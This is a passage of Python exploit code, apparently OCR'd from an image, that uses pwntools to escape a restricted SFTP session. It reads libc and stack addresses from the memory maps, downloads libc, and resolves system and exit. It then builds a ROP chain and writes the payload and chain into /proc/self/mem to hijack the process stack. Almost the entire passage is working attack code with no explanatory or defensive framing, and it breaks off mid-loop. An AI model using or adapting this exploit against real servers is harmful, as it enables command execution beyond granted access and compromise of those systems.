 ```python
            libc_start, libc_end = int(libc_start,16), int(libc_end,16)
            log.debug("libc range is:{0}".format(_libc_range))
            log.info("libc addresses are: {0}-{1}".format(hex(libc_start), hex(libc_end)))
        elif '[stack]' in line:
            stack_start, stack_end = line.split(' ')[0].split('-')
            stack_start, stack_end = int(stack_start, 16), int(stack_end, 16)
            stack_length = stack_end-stack_start
            log.debug("stack length is {0}".format(stack_length))
            log.info("stack addresses are {0}-{1}".format(hex(stack_start), hex(stack_end)))


    p = log.progress("Fetching {0} into /tmp/libc".format(libc_path))
    libc = sftp.get(libc_path, '/tmp/libc')
    p.success('Downloaded {0}!'.format(libc_path))
    libc_elf = ELF('/tmp/libc')

    system_off = libc_elf.symbols[b'system']
    exit_off = libc_elf.symbols[b'exit']

    system = libc_start+system_off
    exit = libc_start+exit_off

    log.info("System offset is at {0}, therefore system address is at {1}".format(hex(system_off), hex(system)))
    log.info("Exit offset is at {0}, therefore exit address is at {1}".format(hex(exit_off), hex(exit)))

    pop_rdi_offset = libc_elf.search('\x5f\xc3').next()
    pop_rdi = libc_start + pop_rdi_offset
    ret_address = pop_rdi + 1
    
    if context.arch == 'i386':
        ropchain = flat(system, exit, stack_start)
    elif context.arch == 'amd64':
        ropchain = flat(pop_rdi, stack_start, system, exit)
    
    new_stack = fit({
            0 : payload,
            (stack_length-len(ropchain)) : ropchain
        },
        filler = pack(ret_address),
        length = stack_length)
    log.success("New Stack Created")
    
    p = log.progress('Writing new stack')
    try:
        with sftp.open('/proc/self/mem', 'w+') as f:
            p.status("Writing payload to 0x{:02x}".format(stack_start))
            f.seek(stack_start, f.SEEK_SET)
            f.write(payload)
        
            p.status("Writing ropchain to 0x{:02x}".format(stack_end-len(ropchain)))
            f.seek(stack_end-len(ropchain), f.SEEK_SET)
            f.write(ropchain)

            p.status("Writing full stack!")
            stack_pointer = stack_length
            while stack_pointer > 0:
                stack_pointer -= 32000
             
                towrite = new_stack[stack_pointer:]
                toseek = stack_start+stack_pointer
            
```